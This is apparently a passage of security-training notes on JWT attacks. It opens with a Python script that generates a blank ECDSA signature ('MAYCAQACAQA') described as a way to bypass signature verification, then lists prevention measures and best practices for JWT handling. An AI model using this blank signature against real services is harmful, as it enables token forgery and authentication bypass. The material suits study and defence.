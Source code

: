 Python script to generate a blank signature ****

```python
from ecdsa.ecdsa import Signature
from ecdsa.util import sigencode_der
import base64

sig = Signature(0, 0) 

print(base64.urlsafe_b64encode(sigencode_der(0, 0, 1)).strip(b'=').decode('utf-8'))
```

signature: `MAYCAQACAQA` 

we can use this signature to bypass signature verification

---

# **How to prevent JWT attacks**

You can protect your own websites against many of the attacks we've covered by taking the following high-level measures:

- Use an up-to-date library for handling JWTs and make sure your developers fully understand how it works, along with any security implications. Modern libraries make it more difficult for you to inadvertently implement them insecurely, but this needs to be foolproof due to the inherent flexibility of the related specifications.
- Make sure that you perform robust signature verification on any JWTs that you receive, and account for edge cases such as JWTs signed using unexpected algorithms.
- Enforce a strict whitelist of permitted hosts for the `jku` header.
- Make sure that you're not vulnerable to [path traversal](https://portswigger.net/web-security/file-path-traversal) or SQL injection via the `kid` header parameter.

## ⇒ **Additional best practice for JWT handling**

Although not strictly necessary to avoid introducing vulnerabilities, we recommend adhering to the following best practice when using JWTs in your applications:

- Always set an expiration date for any tokens that you issue.
- Avoid sending tokens in URL parameters where possible.
- Include the `aud` (audience) claim (or similar) to specify the intended recipient of the token. This prevents it from being used on different websites.
- Enable the issuing server to revoke tokens (on logout, for example).